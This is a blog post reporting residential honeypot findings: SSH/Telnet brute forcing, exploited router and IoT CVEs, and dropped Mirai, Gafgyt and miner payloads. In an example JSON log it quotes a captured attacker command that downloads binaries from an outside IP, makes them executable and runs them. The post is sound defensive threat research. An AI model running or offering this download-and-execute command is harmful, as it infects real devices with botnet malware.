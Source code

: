 ```yaml
---
title: Yesterday's Router, Today's Pivot!
slug: residential-threat-intel-w-oak
date_published: 2025-05-29T21:51:34+00:00
date_updated: 2025-05-29T21:51:34+00:00
tags: Threat-Intel, Linux, Oaks-Internet-Safari
excerpt: Hunting Residential Threats and Fighting Automated Botnets
cover: '2025/5/residential-threat-intel-w-oak/banner.png'
author:
  name: OakAtsume
  avatar: 'avatars/oak.gif'
---
```


# Yesterday's Router, Today's Pivot!

**Residential Threat Hunting and the War on Automated Threats and Botnets** </br>
*By: Oak Atsume* </br>

## Introduction

My goal with this project was simple: to understand what kind of threats are actually hitting people like ***you and me***. Most cybersecurity research focuses on big enterprise or industrial infrastructure. But what about our homes, our routers, our smart devices?

I believe the residential space deserves more attention. That’s where real people live, and where real threats land. And guess what? Monitoring a home network gives us an unfiltered look into what’s going on across the Internet.</br>
(*Spoiler: it’s a lot of **Mirai** and Crypto **miners***) </br>

## Someone's knocking...

Since I started running a honeypot in a residential network, one thing became clear: **we're under constant attack!** 

Governments like to point fingers at China, Russia, North Korea. But in reality, it's often more mundane. The biggest threat to our digital lives may not be a foreign nation, but instead **the negligence of vendors and users alike!**
![Attack-Map](/images/2025/5/residential-threat-intel-w-oak/country-map.png)

## Who's Knocking, and What are they doing??

The vast majority of attacks I observed targeted Unix-like devices, Routers, IP Cameras, NAS Boxes, etc.  
The attackers typically rely on two approaches:

* **Brute Force Attacks** on SSH/TELNET credentials.
![Creds-Map](/images/2025/5/residental-threat-intel-w-oak/creds.png)

* **Exploitation of known vulnerabilities** in outdated devices.
![Attack](/images/2025/5/residental-threat-intel-w-oak/attack.png)

It's not sophisticated, but it doesn't have to be! It only takes one vulnerable device to give an attacker a foothold.

### Notably used CVEs
* **CVE-2024-6047** - Command injection for GeoVision IoT systems  
* **CVE-2024-4577** - CGI argument injection in PHP (can lead to RCE)  
* **CVE-2023-1389** - Command injection in TP-Link Archer AX-21 routers

And more!  
These aren't "zero-days". They're simply still relevant because **companies don’t patch, and users don’t update**!  
That's the real threat here.

## They’re In. Now What?

Once attackers gain access, they typically drop one of three things:

* A variant of **Mirai** or **Gafgyt** to enroll the device into a botnet  
* A **cryptocurrency miner** (usually XMRig)  
* A **downloader script** to fetch more malware  

```json
  {
    "ip": "176.65.148.181",
    "port": 2222,
    "country": "Germany",
    "city": null,
    "lat": 51.2993,
    "lon": 9.491,
    "firstSeen": 1745895007,
    "lastSeen": 1745895015,
    "loginPasswordAttempts": [
      {
        "timestamp": 1745895011,
        "username": "root",
        "password": "admin"
      }
    ],
    "loginKeyAttempts": [

    ],
    "executedCommands": [
      {
        "timestamp": 1745895014,
        "command": "cd /tmp; wget 209.141.34.106/PangaKenya/KKveTTgaAAsecNNaaaa.x86_64; chmod +x KKveTTgaAAsecNNaaaa.x86_64; ./KKveTTgaAAsecNNaaaa.x86_64 ; rm -rf KKveTTgaAAsecNNaaaa.x86_64; wget 209.141.34.106/PangaKenya/KKveTTgaAAsecNNaaaa.x86; chmod +x KKveTTgaAAsecNNaaaa.x86; ./KKveTTgaAAsecNNaaaa.x86 ; rm -rf KKveTTgaAAsecNNaaaa.x86",
        "successful": true
      }
    ],
    "uploadedFiles": [

    ],
    "downloadedFiles": [
      {
        "timestamp": 1745895014,
        "filename": null,
        "sha": "811cd6ebeb9e2b7438ad9d7c382db13c1c04b7d520495261093af51797f5d4cc"
      },
      {
        "timestamp": 1745895014,
        "filename": null,
        "sha": "9ac2e308b0b30354575bba88169283fa7439d34937a148ccb390bcec3c6e296b"
      }
    ]
  }
```

> Example of an observed log.

Often, these devices aren’t the end goal—they’re stepping stones. Your router becomes **someone else’s launchpad**. A pivot point for scanning, attacking, or anonymizing future activity.

## The Bots Are Winning

These threats aren’t launched by people sitting at a keyboard. What I’m observing is an **entirely automated threat landscape**.

The cycle looks like this:

1. Scan
2. Fingerprint
3. Exploit
4. Drop malware
5. Monetize
6. Move on

If it fails? No problem. Move to the next IP. It’s a numbers game, and the bots play it well.

## From Curiosity to Chaos

Over the weeks I’ve been running this honeypot, a clear pattern has emerged:

1. A new, easy-to-exploit CVE appears
2. A fresh botnet variant (often Mirai-based) emerges to exploit it
3. It spreads rapidly, monetizing devices along the way

It happens fast. In days. The ecosystem is efficient, ruthless, and almost entirely unsupervised.

---

## Final Thoughts

Our homes are on the frontlines of a silent war. And the scariest part? Most people have no idea it’s happening.

If this project has taught me anything, it’s this: **residential cybersecurity deserves more attention**. Not just for the sake of privacy or convenience, but because our homes are being conscripted into someone else’s cyberwar.

We may not be able to stop every attack, but we can do something even more powerful: **understand them**. And understanding is the first step toward fighting back.

![Skibbity-Toilet](/images/2025/5/residental-threat-intel-w-oak/atack-logs.png)

> Break-Thru, I acknowledge this blog is very boring lol; but it's meant to be formal. Hopefully if I have more time I will make some more that are fun!

